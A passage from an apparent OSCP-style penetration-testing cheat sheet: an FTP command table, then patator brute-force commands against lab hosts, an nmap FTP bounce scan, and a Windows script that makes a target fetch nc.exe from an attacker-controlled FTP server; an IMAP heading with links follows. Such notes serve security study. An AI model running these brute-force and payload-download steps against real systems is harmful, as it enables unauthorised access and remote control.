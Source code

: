 | mget * | Copies all the files in the current remote directory to your current local directory, using the same filenames. Notice the use of the wild card character, *. |
| mput	| Copy multiple files from the local machine to the remote machine; you are prompted for a y/n answer before transferring each file |
| open	| Open a connection with another computer |
| open brubeck | Opens a new FTP connection with brubeck; you must enter a username and password for a brubeck account (unless it is to be an anonymous connection). |
| put	| Copy one file from the local machine to the remote machine |
| pwd	| Find out the pathname of the current directory on the remote machine |
| quit	| Exit the FTP environment (same as bye) |
| rmdir	| Remove a directory in the current remote directory |


- Bruteforcing 
    ```bash
    patator ftp_login host=10.11.1.220 port=21 user=COMBO0 password=COMBO01 0=/root/oscp/lab-net2019/combo-creds.txt -x ignore:fgrep=’Login or password incorrect’

    patator ftp_login host=/root/oscp/lab-net2019/ftp-open.txt port=21 user=COMBO0 password=COMBO01 0=/root/oscp/lab-net2019/combo-creds.txt -x ignore:fgrep=’Login or password incorrect’

    patator ftp_login host=FILE0 port=21 user=COMBO0 password=COMBO1 0=/root/oscp/lab-net2019/ftp-open.txt 1=/root/oscp/lab-net2019/combo-creds.txt -x ignore:fgrep=’Login or password incorrect’ -x ignore:fgrep=’cannot log in.’ -x ignore:fgrep=’Login incorrect’ -l ftp_spray
    ```
- TCP FTP Bounce Scan: `nmap –top-ports 1000 -vv -Pn -b anonymous:password@10.11.1.125:21 127.0.0.1`
- Script FTP 
    ```
    echo open (YOUR IP) 21 > C:\share\ftp.txt (Writeable Directory on target)
    echo USER pwnt >> C:\share\ftp.txt
    echo passwd >> C:\share\ftp.txt (Password for your FTP Server)
    echo bin >> C:\share\ftp.txt (Sets transfer up for binary files/bytes)
    echo GET nc.exe C:\share\nc.exe>> C:\share\ftp.txt
    echo bye >> C:\share\ftp.txt
    ```
    ```
    ftp -v -n -s:C:\share\ftp.txt
    ```

**Tools**
**Hardening**
**References**

## IMAP - 134/tcp 993/tcp

**Quick Reference**

- <https://tools.ietf.org/html/rfc3501>
- [Cheatsheet - https://busylog.net/telnet-imap-commands-note/](https://busylog.net/telnet-imap-commands-note/)
- [IMAP Capabilities & Commands Extensions](https://k9mail.github.io/documentation/development/imapExtensions.html)
